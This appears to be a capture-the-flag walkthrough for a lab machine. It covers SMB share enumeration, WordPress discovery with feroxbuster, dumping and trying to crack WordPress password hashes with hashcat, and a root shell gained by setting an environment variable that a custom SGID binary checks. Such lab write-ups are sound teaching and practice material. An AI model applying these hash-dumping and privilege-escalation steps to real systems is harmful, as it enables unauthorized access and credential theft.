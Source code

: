 ```shell
select * from wp_users;
#dumps hashes for bjoel and kwheel

#crack hashes
vim hash.txt

hashcat -a 0 -m 400 hash.txt /usr/share/wordlists/kaonashi.txt
#this does not help
#we are unable to crack hashes for bjoel

#check the unknown SGID binary
ls -la /usr/sbin/checker
#owned by root

/usr/sbin/checker
#prints 'Not an Admin'

#check the binary
strace /usr/sbin/checker

ltrace /usr/sbin/checker

#ltrace shows that the binary looks for 'admin' var

env
#there is no environment var named 'admin'

export admin=1

echo $admin

/usr/sbin/checker
#we get root shell
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.6p1 (Ubuntu)
  * 80 - tcpwrapped
  * 139 - netbios-ssn
  * 445 - microsoft-ds - Samba smbd 4.7.6

* We can start enumeration of SMB shares using ```smbclient``` - there is a share that we can gain access to.

* The share file contains a .jpg file, a .mp4 file and a .png file - we can use ```mget``` to transfer the entire files for inspection on our machine.

* We can use stego tools for the transferred files.

* We can now start exploring and enumerating the webpage on port 80; it is a blog page.

* ```feroxbuster``` gives us certain directories that make it seem like the blog page is using ```Wordpress```.
